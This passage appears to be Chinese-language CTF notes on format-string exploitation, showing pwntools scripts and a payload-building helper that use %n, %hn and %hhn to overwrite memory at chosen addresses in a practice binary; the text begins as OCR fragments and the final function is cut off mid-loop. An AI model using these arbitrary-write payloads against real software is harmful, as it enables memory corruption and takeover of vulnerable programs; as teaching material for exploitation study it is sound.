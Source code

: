 aa%8    $naa    4位

首先偏移就改变为  8 印后参数后置了

然后利用截断  值  提取 aa 的长度  则 为2 

```
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

**覆盖大数字**

```
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节

如果我们要覆盖 一个 12354678 这么大的数

则需要进行  如下格式的覆盖

```
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

```
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'

实例：
(\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
```

**4 * 4 地址加 pad长度 来 覆盖数字**

脚本：

```
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
```